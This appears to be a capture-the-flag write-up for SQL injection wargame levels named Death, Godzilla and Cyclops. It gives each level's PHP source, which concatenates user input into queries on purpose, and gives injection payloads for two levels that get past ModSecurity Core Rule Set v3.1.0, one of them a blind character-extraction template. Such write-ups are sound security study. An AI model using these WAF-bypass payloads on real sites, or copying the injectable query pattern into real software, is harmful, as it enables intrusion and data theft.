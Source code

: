 **payload:** %2D1%27%3C%40%3D1%20OR%20%7Ba%201%7D%3D1%23



## Death([ModSecurity Core Rule Set v3.1.0](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181))

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_death where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("death");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

payload: %2D1%27%3C%40%3D1%20OR%20%7Ba%201%7D%3D1%20limit%201%2C2%23

## Godzilla(error based + modsecurity core rule set v3.1.0)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_godzilla where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello admin</h2>";
   
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_godzilla where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("godzilla");
  highlight_file(__FILE__);
?>
```

payload : 1'<@=1 OR {a ord(mid({pw},{i},1))}={j}%23



## Cyclops(first second bypass)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_cyclops where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['id'] === "first") && ($result['pw'] === "second")) solve("cyclops");//must use union select
  highlight_file(__FILE__);
?>
```